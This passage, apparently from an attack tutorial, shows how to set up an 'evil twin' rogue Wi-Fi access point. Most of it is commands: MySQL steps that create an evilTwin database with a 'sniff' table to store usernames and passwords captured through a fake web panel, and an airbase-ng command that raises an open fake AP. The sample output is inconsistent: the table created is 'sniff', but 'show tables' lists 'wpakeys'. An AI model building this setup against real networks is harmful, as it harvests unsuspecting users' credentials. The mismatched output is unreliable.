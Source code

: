 ### Configuring MySQL

As we can see in `dbconnect.php` it's trying to connect to a `evilTwin` db with `fakeap` user, so we just need to configure mysql properly.

#### Creating the DB

```
mysql -u root

create database evilTwin;
create table sniff(username varchar(32), password varchar(32));

show tables;

+--------------------+
| Tables_in_evilTwin |
+--------------------+
| wpakeys            |
+--------------------+
1 row in set (0.00 sec)

insert into sniff(username, password) values ("TESTKEY", "TESTKEY");
select * from sniff;

+-----------+-----------+
| username  | password  |
+-----------+-----------+
| TESTKEY   | TESTKEY   |
+-----------+-----------+
1 row in set (0.00 sec)
```

#### Creating a user for the DB

```
mysql -u root

create user fakeap@localhost identified by 'fakeap';
grant all privileges on evilTwin.* to 'fakeap'@'localhost';
FLUSH PRIVILEGES;
```

At this point onced we introduced credentials via the web panel, it will be appended in our database.

### Creating the AP

With `airbase` we can set up our fake AP without authentication:

```
airbase-ng -e <ESSID> -c <CHANNEL> -P <IFACE>
```

#### Configuring a new network interface

